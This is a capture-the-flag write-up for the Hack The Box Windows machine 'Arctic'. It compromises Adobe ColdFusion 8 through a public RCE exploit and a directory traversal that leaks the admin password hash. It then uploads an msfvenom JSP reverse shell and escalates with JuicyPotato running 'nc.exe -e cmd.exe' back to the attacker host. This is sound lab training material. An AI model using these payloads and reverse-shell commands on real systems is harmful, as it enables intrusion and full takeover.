

# Arctic

| | |
|---|---|
| **OS** | Windows |
| **Difficulty** | Easy |
| **Topics** | Adobe ColdFusion 8, Remote Command Execution (RCE), JuicyPotato, SeImpersonatePrivilege |

---

## 📁 Folder Structure

- [`content/`](content/) — screenshots and inline references used in the write-up
- [`nmap/`](nmap/) — raw nmap output files
- [`exploit/`](exploit/) — exploit scripts, binaries, payloads, and other tools used

---

# Enumeration

## Nmap

```bash
sudo nmap -sS -p- --open --min-rate 5000 -Pn -n -vvv 10.10.10.11 -oN AllPorts
```

```bash
nmap -p 135,8500,49154 -sCV -P -n 10.10.10.11 -oN FullScan
```

**Result**

```bash
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

# Initial Access

After initial enumeration we found the port 8500 open, which is commonly used by ColdFusion Applications. More details `here`. 

**Main page:** 



Finding the ColdFusion Version, browse to: 

```bash
http://10.10.10.11:8500/CFIDE/administrator/
```

Checking the Webpage we will see the version for ColdFusion: Adobe ColdFusion 8 


Doing a simple search we will find the following exploit: 

```bash
>searchsploit Adobe ColdFusion 8 

Adobe ColdFusion 8 - Remote Command Execution (RCE) | cfm/webapps/50057.py
```

Download and Edit following lines:

```bash
lhost = '10.10.16.2'
lport = 443
rhost = "10.10.10.11"
rport = 8500
```

Execute it: 

```bash
python3 50057.py
```

Wait for the execution and we will get a reverse shell:

```bash
Executing the payload...
listening on [any] 443 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.11] 50302
Microsoft Windows [Version 6.1.7600]

C:\ColdFusion8\runtime\bin>
```

### Alternative Exploitation:

Checking the exploits for Adobe ColdFusion, we will the following exploit for Directory Traversal:

```bash
Adobe ColdFusion - Directory Traversal   | multiple/remote/14641.py
```

Checking the exploit we will the following request:

```bash
http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

Proceed to make a request using the above URL: 


We will see 1 password hash, copy them and try to crack them on Crackstation. 


Try to login using the credentials `admin:happyday`

Go to the section: 

1- Sheduled Tasks  
2- Schedule New Task  
3- Fill all the fields
4- For fields URL and File set the following properties:

```bash
URL: http://10.10.16.2/shell.jsp ---> share this file via http server on kali
File: C:\inetpub\www\CFIDE\reverse.jsp
```

Create the JSP Payload and served it over HTTP server:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.2 LPORT=443 -o shell.jsp
```

Should look like this:


Click on submit.

Then, execute the task:


Finally, access the shell uploaded:

```bash
http://10.10.10.11:8500/CFIDE/shell.asp
```


Have ready a listerner on Kali. 

# Privilege Escalation

### Enumerate privileges assigned to the current user


We will see the privilege <`SeImpersonatePrivilege`> which is vulnerable to `JuicyPotato`.

### Exploit:

Proceed to download the binary and `transfer` it to the target machine. Also transfers the binary `nc.exe`. 

### Execution:

```bash
.\JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Users\Public\Documents\nc.exe -e cmd.exe 10.10.16.2 443”
```

Done, we will get a shell as `NT AUTHORITY/SYSTEM`

[Owned Arctic from Hack The Box!](https://www.hackthebox.com/achievement/machine/906667/9)